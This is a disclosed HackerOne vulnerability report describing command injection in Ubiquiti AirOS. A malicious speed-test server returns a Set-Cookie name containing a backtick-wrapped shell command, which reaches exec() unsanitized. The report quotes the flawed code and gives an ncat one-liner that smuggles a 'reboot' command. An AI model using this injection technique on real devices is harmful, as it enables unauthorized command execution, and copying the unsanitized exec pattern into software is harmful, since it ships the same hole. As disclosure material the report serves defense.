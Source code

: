 # Read-Only user can execute arbitraty shell commands on AirOS

## Report Details
- **Report ID**: 128750
- **URL**: https://hackerone.com/reports/128750
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-04-06T16:54:03.718Z
- **Disclosed**: 2016-08-05T09:36:57.479Z

## Reporter
- **Username**: rbran
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ui

## Vulnerability Information
This issue is similar to #119317, but happen on the server side data (actionRemote).

The function "parseHeaders" in remote.inc:38 don't sanitize the input received from the other server (other side of the speed test). If the attacker started an speed test against a controlled server (attacker itself) and returned a cookie with special shell character will be possible to inject commands.

Injection Point:
```
Function parseHeaders $headers
(
	global $session_key, $session_value;
	$cookie_regex = "^Set-Cookie: ([AIROS_[:print:]]+)=([[:alnum:]]{32});";

	$i = 0;
	while ($i < count($headers)) {
		if (ereg($cookie_regex, $headers[$i], $regs)) {
			$session_key = $regs[1];  //code injection in this variable
			$session_value = $regs[2];
			return 0;
		}
		$i++;
	}
	return $i;
);
```

On doLogin (remote.inc:144, via buildCookieStr), the "$session_key" variable is passed to be executed without verification.

remote.inc:146, doLogin():
```
	$session_str = buildCookieStr(); //return the session_key value

	$cfgfile = "/tmp/.trigger.txt";
	writeConfig($cfgfile, $login, $passwd);

	$cmd = $cmd_trigger + $session_str; //now cmd have shell code
	$cmd += " -c $cfgfile";

	$url = EscapeShellCmd($base_url + "/login.cgi");
	$full_cmd = "$cmd $url";  //now full_cmd have shell code

	exec($full_cmd, $lines, $res); //shell code executed
```

#Reproducing the attack:
Fist run the server that will return the cookie: 
```
$ echo -en "HTTP/1.1 200 OK\r\nSet-Cookie: AIROS_\`reboot\`=12345678901234567890123456789012;\r\nContent-Length: 1\r\nContent-Type: text/html\r\n\r\nA" | ncat -l -p 8080
```

Then execute the speed test against this target.

In this Exemple: http://192.168.1.100:8080

I Hope you like this report, because I burned my new PicoStation while trying to unbrick it using a ttl cable, after a unsuccessful downgrade :(

## Attachments
No attachments
